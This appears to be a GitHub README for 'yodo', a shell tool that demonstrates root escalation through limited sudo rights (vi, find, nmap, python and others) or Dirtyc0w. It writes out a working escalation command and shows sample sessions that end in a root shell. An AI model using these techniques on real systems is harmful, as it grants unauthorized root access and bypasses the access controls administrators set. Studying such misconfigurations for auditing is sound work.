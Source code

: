 # yodo
This tool proves how easy it is to become root via limited sudo permissions or via dirtyc0w

Example:
If a user has sudo privileges only on vi, he could become root by runnuing this command: sudo vi -c ':shell'

    b3rito@victim ~/Desktop $ sudo vi -c ':shell'
    [sudo] password for b3rito:
    victim Desktop # whoami
    root

# Author
Written by b3rito at mes3hacklab

# Installation
    chmod +x yodo.sh

# Usage
./yodo.sh
    
    b3rito@victim ~/Desktop $ ./yodo.sh
    =======================================================================                                                       
                                    ....                         
                                ..  .77.                        
                                Z.  ,77?                        
                               .Z$.....,?+?.       
                       ....     $?Z.77+??I..            
                       .7I.  .....~.77:=I..Z.....      
                       .77?  ..7?.?.=7....ZO..~..            
                   ..  ..7$7.=7I$.??+.$$~.==.??..    .~..  
                  .$Z$..Z...77.$7..+=?,.I?=.++.+~....?7... ..  
                   ..?.I7:..77....$$IO++??=...7$.Z$..7$?..7$  
                   .77.+:$?7..Z$.?,.~M,?,..77. .ZZ...,,.$77.. 
              ..$=. +7$7...77+$I? ???M.$.I:~I?..,$..7$.Z7=.   
              ..Z7Z.=..~,.....,=O...~MI=~=...O$.~...?7..:$7I. 
              ...Z.Z.?I?.=:.??...??..M.ZZ.. ,.~Z$I,.,7...I.,....   
              ..,......:.~~.?.?+..?~7M..,?...==.~7..:.Z$+.. ....
                .?7..??,...Z.=?:.I7..M. D$Z?$+=.:... +Z+,....77.....
          .$~...:+O7$.+I+$=~:.=...7,:M.M~7 ..Z$..+~:?...7?$.?$~.OZZ$Z...
          ..$I7=?I?,..7?$$M..=:..?...MM.7$,.7...:??....,7I...?..Z$Z$$$.
          ...,=~.?.+.7.....8.$...?,+~MD+I...$7.I.O$Z$.. D8..I=$:$,....
            .$~+$....7Z.$$$7M.?+=$..,M8 .Z.I., M,ZZZ.MM..7+?+77..7..
              .. ...$.MM.....MZ$~Z:Z,MM.O$,$7,MZ .NMM.~77.+?+.7...
                 I7~Z....MM .M7Z....?MMO,Z..$.M 8MM ..=77I=~?..I~.
            .$7I7?.+...$...:MMM. .$=OMM?Z,,..MMMMMMMMMMMMMI..=Z$+...
            ..?7I$$I.+.O:Z,=.8MN.$??MMM..$7.MMM...Z.$.+,?.Z.Z=..$77$..
                   ...?OMMMMMMDMM7$IMMM ..MMM..,$7.Z$Z..??I$,Z.?I...
                   7?:++.??=...~8D..MMM MMMM.???.$...~$.....$Z..7$.. 
                   .....??,::Z$::MM.MMMMMM,,=II?II,.....   ...... ..
                        ,...?:...IOOO8OO8 ?I,:        ,.     
                            .     88OOOO. :.                 
                           .:,,,:,.8OOOO :.                  
                           .,....,. OO8M:.. :.               
                            ..... . 8OMN.:.                  
                                   .ONM8::.                  
                    :8MDO  8MDO   :8MDO,    DMO8M       :8MDO, 
                      DMO  DMO  .+8D   MO,  DMO  8M   .+8D   MO,
                        O  O    $O     OMM  DMO   8M  $O     OMM 
                      :8MDO    .OO     O8   DMO  8M  .OO     O8M,
                      DMO         .8°O88    DMO8M       .8°O88
                                  .8OOOO. .           :.       
                       ...         OOOOO,.                       
        ..  . ......    .........,.MMMMMMI.,........... .       
          .     .. ,INMMMMMMMMMMMMMMMMMMIZMMMMMMMN7=..... . . .  ..
                 .  =. ......~?ZMMMIM.MM NMMN...   .......=+ . .  
                 .  .. .  .$...MM,.MM ..MD....MMMMO... .. ..,..~ 
                 ,     .   . :MM.  MM  .ZMM?.. .$M...7MD77ZD+.,. 
              .    .  :=D7Z8MM.   .M:   .. .MD.. .7D~. ..,.O. .. 
              .. $..=.    ?M?. .. .M.  ..M...IMM  .,..M ..   ..:.. 
              . ..... . .MM.Z   D ,M+. . :+..M. N+ . . ..? . .... 
                       .M7=.+.=.~.:MM.    .  , . .M..   .  ,.  
                      .N?.8. ~  ..,M 8. ... . M. . M.      . . .  
                  . ..NM .$..    .MM...  .    ,+.:: 8 .         
                 . =M.M ..?..    ..M  M .   . .M .I,.M.       
            ,~~  .   .I...8..    M M  .8,.     Z.... b3    
               .     +.   +. .. : .M....O.    ...  . D.=.   
                     O.  .~,    $. 8     .    .~.  ..+ .   
                     8.   ...   M. ,..   , +   .I.. .,..7  
                     O.    .    I   I     ..  .   .  .... 
                     +.      .  :  .M.                   
                      .         .   M                  
                     ..         .   ..                
                     .          .                    
                      ~.             N.                                         
    =======================================================================
    Possible exploitable options (‡ excluded):
     [·] find
     [·] vi
     [·] b3
 
     Select From the menu:
 
       1) Find                8) More *                15) Tee
       2) AWK                 9) Man  *                16) VSP °‡
       3) Nmap               10) Dirtyc0w °‡           17) Pathzuzu °‡
       4) Vi                 11) Gdb                   18) History °‡
       5) Python             12) Ruby                  19) Credits
       6) Irb                13) b3                    20) Update
       7) Less *             14) Perl                  99) Exit
         
     VSP = Vulnerable Script Permissions
     Pathzuzu = SUID exploitation threw Path vulnerability
     * user interatcion
     ° sudo not required
    Enter Number: 1
    [sudo] password for b3rito:
    victim Desktop # whoami
    root
    victim Desktop #
